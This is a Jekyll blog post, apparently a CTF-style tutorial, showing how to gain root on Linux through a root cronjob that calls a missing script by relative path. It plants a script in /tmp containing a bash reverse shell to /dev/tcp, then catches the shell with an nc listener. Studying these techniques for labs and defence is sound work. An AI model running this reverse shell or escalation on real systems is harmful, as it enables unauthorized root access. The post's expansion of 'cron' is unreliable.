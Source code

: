 ```yaml
---
layout: post
title: Rooting with forgotten CronJobs
subtitle: How to take advantage of forgotten cronjobs to get root access on a host
cover-img: /assets/img/rooting-forgotten-cronjobs/cover.jpg
tags: [cronjob, root, linux, hack, script]
comments: true
---
```


As you might have guessed by the title, in this article, we will explore another scenario where we could take advantage of forgotten cronjobs to gain our precious root access. BUT FIRST, if you are new here, or missed the previous articles about this, don’t hesitate to pay a visit to [PART I](https://https://orianaolivetti.github.io/2023-07-14-rooting-is-easy/) or [PART II](https://orianaolivetti.github.io/2023-02-23-rooting-with-docker/), totally worth it! 

And now, focusing on the topic of today... 

**What are… cronjobs?**

Well, "cron" stands for **command run on notice**, and yes! As it sounds like. A cronjob is a script that was scheduled to be executed periodically. 
You can list your own cronjobs by typing **crontab -l** or checking the ones in the system by seeing what is inside the **/etc/crontab** file.

Alright, I understand, but… how can this can help you get root access? If we are lucky enough, we will find a forgotten cronjob, which no longer exists, that we can modify to our advantage! 
However, we need to have our fingers crossed so that we find a place where we have write permissions. More on that later! Don’t worry for now. 

**Let’s begin with the fun stuff**

Oh no! What happened? For some reason I’m stuck as this low-privilege user called simba. Well… I’ll have to find a way to get root access as soon as possible so I can do important stuff! 

First, let’s see what cronjobs are available. Feel free to experiment alongside simba and type **cat /etc/crontab**

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron1.png){: .mx-auto.d-block :}

Here we have some interesting information. Let me explain…
1. We see that there are only 2 scripts running every minute, **backup.sh** and **server_connect.py**
2. Both scripts are run with **root** permissions.
3. The **first script** is located in oriana’s home, so most probably we won’t have access to modify the contents of that particular script.
4. The **second script**, has no absolute path. When this happens, the crontab binary will look for the script in all locations listed on the **PATH** variable on top of the file.

So… as you might be thinking, our salvation could be the server_connect.py script in case it is located somewhere we have write access to! Let’s check first if the script exists already.
~~~
find / -name server_connect.py 2>/dev/null
~~~
![Terminal](/assets/img/rooting-forgotten-cronjobs/cron2.png){: .mx-auto.d-block :}

This means the file does not exist. So we might be able to create it in one of the directories listed on **PATH**. Where could simba have write access? Have you guessed already?
Of course! Everyone can write on the **/tmp** folder!. So now we could execute a reverse shell with root permissions.

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron3.png){: .mx-auto.d-block :}

Simba will create then a server_connect.py script on the /tmp folder. In there, he added a bash script for executing a reverse shell. Yes, a bash script, because even though it used to by a python script, it is just the name of the file. That is why we declare the binary to execute on top.

There you go, feel free to copy it! And replace it with your own ip and port for the reverse shell. 
~~~
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
~~~

And don’t forget to give it execution access!!
~~~
chmod +x server_connect.py
~~~
![Terminal](/assets/img/rooting-forgotten-cronjobs/cron4.png){: .mx-auto.d-block :}

**Are we ready now?**

Almost there! We just need to start a listener on that same port, so the reverse shell can connect! Let’s type **nc -nlvp 4444**  on the console and wait…
And after a minute, we got it! We got a reverse shell with root permissions! 

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron5.png){: .mx-auto.d-block :}

Now we we are ready to do more hacking! Like reading sensitive files, or perform system-level actions. The sky is the limit! 

**Conclusion**

From now on, you and simba know how to gain root access when some forgotten scripts are available to run as root periodically, due to security misconfigurations. 
It is time to have fun and nplay some CTFs with this trick under our sleeve! 

Happy Hacking! 